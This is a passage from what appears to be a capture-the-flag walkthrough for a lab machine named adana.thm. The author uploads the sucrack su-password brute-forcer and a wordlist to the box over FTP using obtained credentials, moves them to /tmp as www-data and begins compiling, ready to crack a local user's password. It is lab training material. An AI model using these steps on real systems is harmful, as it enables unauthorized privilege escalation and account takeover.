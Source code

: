 There's a clue on there. What is sucrack? Why is it mentioned?

I found it [here](https://github.com/hemp3l/sucrack), and it's a small tool to brute force su with a wordlist. We have a wordlist from before, and we know the user. Now we need to get both sucrack and the wordlist on to the server, we can use FTP again for this:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# git clone https://github.com/hemp3l/sucrack.git      

┌──(root💀kali)-[~/thm/diffctf]
└─# tar -czvf source-sucrack.tar.gz ./sucrack  

┌──(root💀kali)-[~/thm/diffctf]
└─# ftp adana.thm
Connected to adana.thm.
220 (vsFTPd 3.0.3)
Name (adana.thm:kali): hakanftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> put source-sucrack.tar.gz
local: source-sucrack.tar.gz remote: source-sucrack.tar.gz
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
321789 bytes sent in 0.09 secs (3.3806 MB/s)

ftp> put wordlist.txt
local: wordlist.txt remote: wordlist.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
403891 bytes sent in 0.12 secs (3.1115 MB/s)

ftp> chmod 777 source-sucrack.tar.gz 
200 SITE CHMOD command ok.

ftp> chmod 777 wordlist.txt
200 SITE CHMOD command ok.
```

Move the files to /tmp, then we have to compile sucrack:

```text
www-data@ubuntu:/$ mv /var/www/subdomain/source-sucrack.tar.gz /tmp
www-data@ubuntu:/$ mv /var/www/subdomain/wordlist.txt /tmp
www-data@ubuntu:/$ cd /tmp
www-data@ubuntu:/tmp$ tar xfz source-sucrack.tar.gz 
www-data@ubuntu:/tmp$ cd sucrack/

www-data@ubuntu:/tmp/sucrack$ ./configure 
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
checking for a thread-safe mkdir -p... /bin/mkdir -p
checking for gawk... gawk
checking whether make sets $(MAKE)... yes
checking whether make supports nested variables... yes
<SNIP>
configure: creating ./config.status
config.status: creating Makefile
config.status: creating src/Makefile
config.status: creating config.h
```